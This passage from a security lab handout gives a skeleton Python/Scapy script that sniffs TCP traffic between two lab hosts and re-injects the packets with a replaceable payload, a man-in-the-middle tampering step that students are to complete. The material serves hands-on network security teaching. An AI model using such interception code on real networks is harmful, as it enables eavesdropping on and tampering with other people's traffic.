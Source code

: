 \begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
         # Create a new packet based on the captured one.
         # 1) We need to delete the checksum in the IP & TCP headers, 
         #    because our modification will make them invalid.
         #    Scapy will recalculate them if these fields are missing. 
         # 2) We also delete the original TCP payload.

         newpkt = IP(bytes(pkt[IP]))
         del(newpkt.chksum)
         del(newpkt[TCP].payload)
         del(newpkt[TCP].chksum)

         #################################################################
         # Construct the new payload based on the old payload.
         # Students need to implement this part.

         if pkt[TCP].payload:
             data = pkt[TCP].payload.load  # The original payload data
             newdata = data   # No change is made in this sample code

             send(newpkt/newdata)
         else:
             send(newpkt)
         ################################################################

    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
         # Create new packet based on the captured one 
         # Do not make any change 

         newpkt = IP(bytes(pkt[IP]))
         del(newpkt.chksum)
         del(newpkt[TCP].chksum)
         send(newpkt)


f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}


It should be noted that the code above captures all the TCP 
packets, including the one generated by the program itself. That is 
undesirable, as it will affect
the performance. Students needs to change the filter, so it does not capture 
its own packets. 


